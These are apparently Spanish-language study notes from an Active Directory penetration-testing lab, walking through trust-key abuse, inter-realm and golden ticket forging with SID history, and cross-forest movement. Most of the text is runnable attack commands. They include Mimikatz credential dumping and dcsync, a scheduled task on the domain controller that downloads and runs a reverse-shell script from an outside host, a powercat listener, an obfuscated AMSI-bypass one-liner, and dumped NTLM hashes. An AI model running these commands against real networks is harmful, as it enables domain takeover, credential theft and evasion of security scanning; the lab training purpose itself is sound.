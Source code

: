 Poniendo el sid del grupo de enterprise admins nos meterá automáticamente en ese grupo ya que confia en el inter-realm TGT que le envian por tener el trust key. Al ejecutarlo nos genera un trust ticket en la ruta. Se puede lanzar sin tener privilegios de administardor.
Ahora tenemos el ticket inter-realm TGT y hay que presentarlo para conseguir el TGS para el dc. se puede crear un ticket para un host u otro servicio.
..* `.\asktgs.exe C:\AD\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local`
Usamos el TGS:
..* `.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi`
Podemos enumerar los ficheros ahora
..* `ls \\mcorp-dc.moneycorp.local\c$`

Ahora vamos a intentar obtener el krbtgt de dollarcorp
..* `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
Ahora vamos a poner el hash de krbtgt del dc de dollarcorp.
Para sacar el krbtgt del dominio actual:
..* `Invoke-Mimikatz -Command '"lsadump::dcsync	/user:dcorp\krbtgt"'`
..* `Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\krbtgt_tkt.kirbi"'`
Ahora utilizamos el TGT para conseguir sesion en el ad:
..* `Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\krbtgt_tkt.kirbi"'`
Ahora tenemos acceso para listar o ejecutar wmi
..* `gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local`
Ahora vamos a conseguir una shell. ponemos un puerto a escuchar con powercat
..* `powercat -l -v -p 443 -t 1000`
Ejecutamos el comando con el gestor de tareas
..* `schtasks /create /S mcorp-dc.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck46" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.46/Invoke-PowerShellTcpEx.ps1''')'"`
Ejecutamos la tareas:
..* `schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck46"`
BYpass del UAC
..* `sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )`
..* ` iex (New-Object Net.WebClient).DownloadString('http://172.16.100.46/Invoke-Mimikatz.ps1')`
..* `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
..** krbtgt --> ed277dd7a7a8a88d9ea0de839e454690
..** Administrator --> 71d04f9d50ceb1f64de7a09f23e6dc4c
..** dcorp$ --> f052addf1d43f864a7d0c21cbce440c9

DCShadow
---------
La persistencia se consigue introduciendo un controlador de dominio en el dominio (en principio en el dominio raiz) y desde el modificar los atributos de los objetos, como los cambios vienen de un dominio no generan logs. Hacen falta privilegios de DA.

Salto entre bosques
-----------------------
MIramos los hashes del DC de dollarcorp
Conseguimos el ticket del admin
..* `Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'` 
..* `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'` --> vemos los hashes del DC dollarcorp, en el vemos una cuenta "ecorp" --> 3dcdf96dd989a53e24ca4eebe4629ab2 es la trust key entre los dos dominios
Tambien podemos usar:
..* `Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local --> vemos que hay una confianza hacia [  In ] DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL --> 3dcdf96dd989a53e24ca4eebe4629ab2`
Generamos un TGT para el dominio eurocorp.local